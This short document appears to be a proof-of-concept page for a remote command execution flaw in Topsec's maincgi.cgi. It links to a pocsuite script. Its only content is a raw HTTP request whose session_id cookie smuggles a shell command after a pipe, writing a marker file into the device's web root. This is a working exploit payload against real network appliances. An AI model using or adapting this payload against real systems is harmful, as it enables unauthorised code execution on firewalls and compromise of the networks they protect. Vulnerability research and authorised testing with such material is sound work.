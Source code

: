 # topsec_cookie_rce
from: https://github.com/Vme18000yuan/FreePOC/blob/master/poc/pocsuite/topsec-maincgi-cookie-rce.py
24/01/02
@2
```
GET /cgi/maincgi.cgi?Url=check HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Connection: close
Cookie: session_id_443=1|echo 'vulnerability' >> /www/htdocs/site/image/security1.txt;
```
